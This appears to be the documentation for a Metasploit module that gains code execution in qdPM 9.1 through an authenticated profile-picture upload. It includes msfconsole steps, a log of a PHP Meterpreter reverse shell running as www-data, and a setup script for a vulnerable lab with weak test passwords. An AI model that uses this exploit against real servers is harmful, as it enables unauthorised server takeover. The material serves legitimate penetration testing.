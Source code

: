 ## Vulnerable Application

This module exploits a arbitrary file upload vulnerability in the qdPM web-based project manager software, in its 9.1 version. When updating a user's profile (POST `myAccoutnt/update`), the user is allowed to upload a profile picture, which is stored in a known location under the web server root. The software fails to verify the picture input, allowing for the upload of any file, with any filename extension. This can be eploited by uploading a PHP script and invoking it by making a request to it. 
The script will run with the same privileges as the web server.
The module has been tested against qdPM version 9.1

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/qdpm_authenticated_rce`
- [ ] `set EMAIL <email>`
- [ ] `set PASSWORD <password>`
- [ ] `set TARGETURI <target_uri>`
- [ ] `set RHOST <rhost>`
- [ ] `set RPORT <rport>`
- [ ] `exploit`
- [ ] Add SSL, Proxy, and VHOST options if needed.
- [ ] Verify that a new session is created.

## Options

  **EMAIL**  
  [Required]  
  The email of the user you want to exploit the software with. The user must NOT be the original Admin (i.e. the account created upon installing qdPM, `admin@your_domain.com`). The original Admin user does not have the same attributes as the other user created later on, and its profile picture cannot be changed. In fact, it has no profile picure nor a `/myAccount` page altogether. If you only have credentials for the original admin, you can always login and create another regular user to run this exploit. Note that users with Admin role are also exploitable, only the one created upon installation is not.

  **PASSWORD**  
  [Required]  
  The password of the user you are trying to exploit.

  **TARGETURI**  
  The path qdPM lives at. This is only needed is qdPM is not served from the webserver root folder.

## Scenarios

As it can be shown by the following scenarios, the exploit works reliably against a variety of targets. The exploit, however, might fail when a large payload (i.e. stageless meterpreter) is selected.
  
   
  **Attacking with a generic PHP payload, OS independed**

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Generic\ (PHP\ Payload)
    target => Generic (PHP Payload)
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit

    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1123 bytes)...
    [*] Executing 'JGvak.php'
    [*] Sending stage (39927 bytes) to 192.168.2.177
    [!] Removing: 993379-JGvak.php
    [*] Meterpreter session 2 opened (192.168.2.177:4444 -> 192.168.2.177:43816) at 2022-06-14 10:03:46 +0200

    (Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
    Server username: www-data
    ```

## Installation

QDPM 9.1 relies on outdated software, and installing it can be quite nuanced. Please run the provided script to get the application set up together with a web server, the right version of PHP, and MySQL. This is tested on a fresh installation of Ubuntu Server 22.04.

```
apt install software-properties-common -y
add-apt-repository ppa:ondrej/php
apt update
apt install -y nginx php7.3-fpm php7.3-mysql php7.3-xml php7.3-gd mariadb-server unzip wget
systemctl enable --now mariadb.service php7.3-fpm.service
mysql -e "UPDATE mysql.user SET Password = PASSWORD('password') WHERE User = 'root'"
mysql -e "DROP USER ''@'$(hostname)'"
mysql -e "DROP DATABASE test"
mysql -e "FLUSH PRIVILEGES"
mysql -e "CREATE DATABASE qdpm_db default charset utf8"
mysql -e "CREATE USER 'user'@'localhost' IDENTIFIED BY 'pass'"
mysql -e "GRANT ALL PRIVILEGES ON qdpm_db.* TO 'user'@'localhost';"
cd /opt
wget https://www.exploit-db.com/apps/f922670e98bcbcff923d9bfaf430e669-qdPM_9.1.zip -O qdPM_9.1.zip
unzip -d /var/www/html/qdpm qdPM_9.1.zip
rm qdPM_9.1.zip
chown -R www-data:www-data /var/www/html/qdpm/
rm /etc/nginx/sites-available/default
rm /etc/nginx/sites-enabled/default
tee -a /etc/nginx/sites-available/default > /dev/null <<EOT
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /var/www/html/qdpm/;
    index index.php;

    location / {
        try_files \$uri /index.php\$is_args\$args;
    }

    location ~* \.php$ {
        fastcgi_pass unix:/var/run/php/php7.3-fpm.sock;
        include fastcgi_params;
        fastcgi_param SCRIPT_FILENAME \$realpath_root\$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT \$realpath_root;
    }

    error_log /var/log/nginx/qdpm_error.log;
    access_log /var/log/nginx/qdpm_access.log;
}
EOT
ln -s /etc/nginx/sites-available/default /etc/nginx/sites-enabled/
systemctl start nginx.service
systemctl reload nginx.service
```

If the script runs successfully, you should have a webserver serving the application on port 80.  
Visit the website to complete the installation via the web installer. It will ask you to fill in the database name, user, and password. Those will be `qdpm_db`, `user`, and `pass` respectively. Then, create a password for your `admin@localhost.com` account and login with it. You can now create a second user to run the exploit against.